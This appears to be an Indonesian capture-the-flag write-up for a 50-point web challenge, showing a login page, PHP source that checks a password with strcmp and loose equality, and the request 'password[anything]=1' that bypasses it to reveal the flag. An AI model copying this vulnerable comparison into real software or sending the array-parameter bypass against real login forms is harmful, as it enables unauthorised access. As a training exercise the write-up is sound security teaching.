 # Surat Tanda Registrasi Calon Menantu baPakmu (50 Points)
No Caption. http://soal.pucc.or.id/scm/
# Solved
Mari kita cek source dari website tersebut
```html
<!doctype html>
<html lang="en">

<meta http-equiv="content-type" content="text/html;charset=utf-8" />
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="Mark Otto, Jacob Thornton, and Bootstrap contributors">
    <meta name="generator" content="Jekyll v3.8.5">
    <title>Login Bang</title>

    <link rel="canonical" href="index.html">

    <!-- Bootstrap core CSS -->
<link href="https://getbootstrap.com/docs/4.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">


    <style>
      .bd-placeholder-img {
        font-size: 1.125rem;
        text-anchor: middle;
        -webkit-user-select: none;
        -moz-user-select: none;
        -ms-user-select: none;
        user-select: none;
      }

      @media (min-width: 768px) {
        .bd-placeholder-img-lg {
          font-size: 3.5rem;
        }
      }
    </style>
    <!-- Custom styles for this template -->
    <link href="signin.css" rel="stylesheet">
  </head>
  <body class="text-center">
<div class="container">
    <form class="form-signin" method="GET" action="">
  <img class="mb-4" src="http://ctf.pucc.or.id:9999/files/d5663db46975e1e7bfaecebf19d1d0ea/favicon.png" alt="" width="150" height="150">
  <h1 class="h3 mb-3 font-weight-normal">Login Dulu</h1>
  <label for="username" class="sr-only">Username</label>
  <input type="text" id="username" class="form-control" placeholder="Username" required name="uname">
  <label for="inputPassword" class="sr-only">Password</label>
  <input type="password" id="inputPassword" class="form-control" placeholder="Password" required name="password">
  <input class="btn btn-lg btn-primary btn-block" type="submit" value="Login">
  <p class="mt-5 mb-3 text-muted">&copy; 2020</p>
</form>
</div>
</body>

</html>
<!--Source ? : https://pastebin.com/raw/uhXkEHZ3 -->
```
Bisa kita lihat disini, bahwa ada komentar yang menunjukkan source code dari website tersebut mari kita coba buka
```php
<?php

error_reporting(0);

define('FLAG', '==MAU TAU AJA==');

if(isset($_GET["password"])){
  $password = $_GET["password"];
  $rahasia  = "--RAHASIA DONG--";

  if(strcmp($password, $rahasia) == 0){
    echo "<h1>Flag nya : </h1>".FLAG;
  }else{
    echo "<script>alert('Salah Koplok')</script>";
  }
}
?>
```
Mari kita lihat fungsi dari <b>strcmp</b> yang menunjukkan kita harus mencari tau variabel <b>rahasia</b>. Tapi bagaimana kita mencari tau nya ?<br>
```php
// Gunakan testing ini pada compiler php
$password = ['test'];
$rahasia  = '???????';

echo var_dump(strcmp($password, $rahasia));
```
Setelah mengeksekusi, kita mendapatkan hasil output <b>NULL</b> atau <b>0</b>. Nah ini untuk local, bagaimana kita implementasikan ke website melalui method GET ?
```
https://soal.pucc.or.id/scm/?uname=1&password[anything]=1
```
Flag : <b>PUCC{strcmp()_isnt_saf3_br0}</b>
